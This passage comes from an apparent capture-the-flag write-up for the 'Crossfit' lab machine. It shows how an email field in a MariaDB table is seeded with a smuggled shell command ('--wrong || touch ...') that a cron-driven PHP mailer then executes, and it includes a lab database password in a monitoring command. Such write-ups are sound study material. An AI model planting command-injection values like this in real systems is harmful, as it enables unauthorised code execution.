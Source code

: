 

So if I want to add a command injection into the database, I can do it
from `mysql`:



    MariaDB [crossfit]> insert into users(email) values('--wrong || touch /dev/shm/0xdf'); 
    Query OK, 1 row affected (0.002 sec)



And it's there:



    MariaDB [crossfit]> select * from users;                                              
    +----+--------------------------------+
    | id | email                          |
    +----+--------------------------------+
    | 52 | 0xdf@crossfit.htb              |
    | 79 | --wrong || touch /dev/shm/0xdf |
    +----+--------------------------------+
    2 rows in set (0.000 sec)



### Execution POC

As a proof of concept, I'll try to just write a file. I wasted a lot of
time and learned some lessions:

-   `/tmp` is not writable, so testing with `touch /tmp/anything` will
    fail even if the exploit works;
-   The `cleanup()` function in PHP must be removing any malicious
    emails from the DB on each run;
-   That cleanup happens regardless of if the mail send (and thus
    execution) was triggered or not;
-   `lftp` seems to show a file even after it's been deleted sometimes.

I got comfortable testing with three consoles. Two were shells on
Crossfit, and one logged into FTP as ftpadm. The first shell is in the
DB. The second is running a watch command to track status / success.



    www-data@crossfit:/dev/shm$ watch 'date; mysql -u crossfit -poeLoo~y2baeni crossfit -e "select * from users"; ls'



This will print out the time (so I can watch for the cron), the current
`users` table (so I can see what's pending), and the contents of
`/dev/shm`, and update every two seconds. It starts looking like this:



    Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:19:49 2021

    Tue Jan 26 17:19:49 EST 2021
    id      email
    52      0xdf@crossfit.htb
